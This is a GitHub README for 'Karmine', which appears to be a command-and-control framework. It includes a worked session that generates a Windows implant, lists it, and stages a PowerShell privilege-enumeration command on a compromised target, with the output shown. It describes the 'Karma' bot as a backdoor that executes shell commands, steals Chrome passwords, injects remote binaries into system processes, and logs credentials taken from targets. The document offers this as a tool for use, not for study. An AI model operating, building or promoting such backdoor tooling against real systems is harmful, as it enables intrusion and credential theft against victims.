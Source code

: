 # Karmine

Karmine is a monorepo which will contain several security-related projects in a mix of languages, mainly:
- Go
- C / C++
- Python
- Rust

## Setup 

1. Run `install.sh` in the project root. This will set up configuration files, the `bin`, a x509 certificate-key pair, and a database. You can replace these with your own by replacing the ones in `~/.kdots/` with files of the same name.

## Usage 

### Example

```
$  new karma --os windows --interval 3
'karma' saved to /home/pygrum/karmine/bin


$  profiles view

uuid                                 | name         | strain
------------------------------------------------------------
181d70e4-cbc6-4bfd-9e96-7ccb31dbbc27 | 3a89aee34882 | karma

$  stage cmd --for 3a89aee34882 exec "powershell -c whoami /priv"
$  % 3a89aee34882 %  ---
INFO[1139] exec powershell -c whoami /priv               type=cmd
INFO[1139] 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

The Karmine database logs all staged commands, active strains, and credentials from targets. In-built commands can be used to view this information.

### Commands

As of March 15 2023, there are 3 commands:
- `new`
- `profiles`
- `stage`

To get usage info about these commands, type `<command> --help`

## Karma

Karma is a bot with backdoor functionality, capable of executing shell commands, stealing chrome passwords, and injecting remote binaries into legitimate system processes. It communicates over a secure mTLS connection, and supports threaded processing and execution of commands. 
